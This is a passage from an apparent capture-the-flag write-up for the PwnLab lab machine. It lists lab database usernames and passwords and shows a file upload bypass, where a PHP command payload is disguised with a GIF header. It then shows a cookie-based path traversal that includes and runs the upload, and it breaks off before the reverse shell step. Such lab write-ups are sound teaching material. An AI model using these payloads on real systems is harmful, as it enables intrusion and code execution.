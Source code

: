 ### MySQL (port 3306)

Since we have credentials, we can connect to the MySQL database:

![mysql](/assets/img/vulnhub/linux/pwnlab/mysql.png)

We gathered three usernames and their passwords:

- **username**: kent; **password**: JWzXuBJJNy
- **username**: mike; **password**: SIfdsTEn6I
- **username**: kane; **password**: iSv5Ym2GRo

## Reverse shell

Using credentials stored in MySQL, we can go back log in and upload some files:

![upload images](/assets/img/vulnhub/linux/pwnlab/upload-logged.png)

Due to `getimagesize` PHP function used in `upload.php`, I remembered [hackers-grimoire - file upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

I wanted t

### GIF89a; magic bytes


If we want to pass the image check, we can add a GIF file header to our malicious file. 

I renamed the file as **ping.gif**:

{% highlight php %}
GIF89;  
<?php system("ping -c1 192.168.1.171") ?>
{% endhighlight %}

By the way, the file is now considerate as a legitimate image:

{% highlight bash %}
$ file ping.gif 
ping.gif: GIF image data 8224 x 15370
{% endhighlight %}

After uploading the image we can retrieve its location by inspecting the source code:

![ping.gif location](/assets/img/vulnhub/linux/pwnlab//assets/img/vulnhub/linux/pwnlab-src.png)

Now we have the image PATH: `upload/360ae33efb11f1be532d46e9daf60828.gif`.

### `tcpdump` ping test

In order to ensure that code execution works, we can try to include the image we uploaded by setting `lang cookie` to `../upload/360ae33efb11f1be532d46e9daf60828.gif`:

![lang cookie](/assets/img/vulnhub/linux/pwnlab/lang-ping.png)
